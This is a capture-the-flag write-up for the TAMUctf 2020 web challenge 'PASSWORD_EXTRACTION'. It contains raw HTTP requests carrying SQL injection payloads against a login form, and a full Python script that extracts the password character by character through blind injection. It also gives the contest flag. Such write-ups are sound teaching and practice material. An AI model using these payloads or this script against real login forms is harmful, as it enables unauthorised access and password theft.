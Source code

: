 # TAMUctf 2020 – PASSWORD_EXTRACTION

* **Category:** web
* **Points:** 50

## Challenge

> The owner of this website often reuses passwords. Can you find out the password they are using on this test server?
> 
> http://passwordextraction.tamuctf.com
> 
> You do not need to use brute force for this challenge.

## Solution

The website contains only a login form that is vulnerable to SQL injection.

```
POST /login.php HTTP/1.1
Host: passwordextraction.tamuctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 75
Origin: http://passwordextraction.tamuctf.com
Connection: close
Referer: http://passwordextraction.tamuctf.com/
Upgrade-Insecure-Requests: 1

username=foo&password=foo%27%20OR%201%3D1%20AND%20username%20LIKE%20%27a%25

HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: Sat, 21 Mar 2020 18:00:47 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 72
Connection: close
Vary: Accept-Encoding

You've successfully authorized, but that doesn't get you the password.
```

Modifying the SQL injection query you will discover that the password is the flag.

```
POST /login.php HTTP/1.1
Host: passwordextraction.tamuctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 82
Origin: http://passwordextraction.tamuctf.com
Connection: close
Referer: http://passwordextraction.tamuctf.com/
Upgrade-Insecure-Requests: 1

username=foo&password=foo%27%20OR%201%3D1%20AND%20password%20LIKE%20%27gigem%7B%25

HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: Sat, 21 Mar 2020 18:02:51 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 72
Connection: close
Vary: Accept-Encoding

You've successfully authorized, but that doesn't get you the password.
```

You can write a [Python script](password-extraction-solver.py) to easily exfiltrate all password chars via blind SQL injection.

```python
import requests
import string
import time

url_form = "http://passwordextraction.tamuctf.com/login.php"
payload = "username=foo&password=foo' OR 1=1 AND password LIKE '{}%"
headers = {
   "User-Agent": "Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US);", 
   "Content-Type": "application/x-www-form-urlencoded",
   "Origin": "http://passwordextraction.tamuctf.com",
   "Referer": "http://passwordextraction.tamuctf.com/"
}

found_chars = "gigem{"
while True:
    for new_char in string.printable.replace("%", "").replace("_", ""):
        attempt = found_chars + new_char
        print("[*] Attempt: '{}'.".format(attempt))
        data = payload.format(attempt)
        print("[*] Payload: {}.".format(data))
        
        page = None
        response_ok = False
        while not response_ok:
            try:
                page = requests.post(url_form, data=data, headers=headers)
                response_ok = True
            except:
                print("[!] EXCEPTION!")
                time.sleep(1 * 60)
    
        if "successfully authorized" in page.text:
            found_chars += new_char
            print("[*] Found chars: '{}'".format(found_chars))
            break
    
    if found_chars[-1] == "}":
        break
        
print("The FLAG is: {}".format(found_chars))
```

The flag is the following.

```
gigem{h0peYouScr1ptedTh1s}
```